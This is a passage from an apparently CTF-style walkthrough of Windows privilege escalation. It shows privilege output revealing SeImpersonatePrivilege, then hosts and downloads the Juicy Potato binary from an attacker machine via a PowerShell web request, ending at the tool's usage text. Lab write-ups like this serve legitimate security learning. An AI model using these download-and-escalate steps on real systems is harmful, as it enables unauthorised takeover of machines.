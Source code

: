 ```shell
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Oh! We found something interesting!

**The `SeImpersonatePrivilege` is enabled!!**

**That being said, we can use some `potatoes.exe` to escalate our privilege to `NT AUTHORITY\SYSTEM`!!**

Since the machine's Windows 10 build version (10586) is < Windows 10 1809, I'll use [Juicy Potato](https://github.com/ohpe/juicy-potato).

- Transfer the potato binary:

```shell
┌[siunam♥earth]-(/opt/juicy-potato)-[2023.05.26|16:33:28(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
c:\Users\kohsuke\Desktop>powershell iwr -Uri http://10.10.14.26/JuicyPotato.exe -OutFile JuicyPotato.exe
c:\Users\kohsuke\Desktop>.\JuicyPotato.exe
.\JuicyPotato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
